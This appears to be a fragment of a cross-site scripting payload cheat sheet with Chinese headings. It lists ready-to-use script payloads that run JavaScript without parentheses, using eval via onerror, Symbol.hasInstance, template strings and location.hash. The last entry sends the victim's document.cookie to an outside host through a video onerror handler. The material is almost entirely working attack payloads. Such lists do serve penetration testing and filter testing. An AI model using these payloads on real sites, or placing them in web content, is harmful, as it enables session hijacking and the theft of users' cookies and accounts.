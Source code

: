 ```
<script>throw onerror=eval,'=alert\x281\x29'</script>
```

#### **在 Firefox 上使用异常处理和评估时没有括号**

```
<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>
```

#### **使用 ES6 的括号没有 Instance 和 instanceof 与 eval**

```
<script>'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}</script>
```

#### **没有括号使用 ES6 hasInstance 和 instanceof with eval without。**

```
<script>'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}</script>
```

#### **没有使用位置重定向的括号**

```
<script>location='javascript:alert\x281\x29'</script>
```

#### **没有使用位置重定向的括号没有字符串**

```
<script>location=name</script>
```

#### **没有使用模板字符串的括号**

```
<script>alert`1`</script>
```

#### **没有使用模板字符串和位置散列的括号**

```
<script>new Function`X${document.location.hash.substr`1`}`</script>
```

#### **没有括号或空格，使用模板字符串和位置散列**

```
<script>Function`X${document.location.hash.substr`1`}```</script>
```

#### **没有圆括号、反斜杠或引号的 XSS cookie 过滤**

```
<video><source onerror=location=/\02.rs/+document.cookie>
```
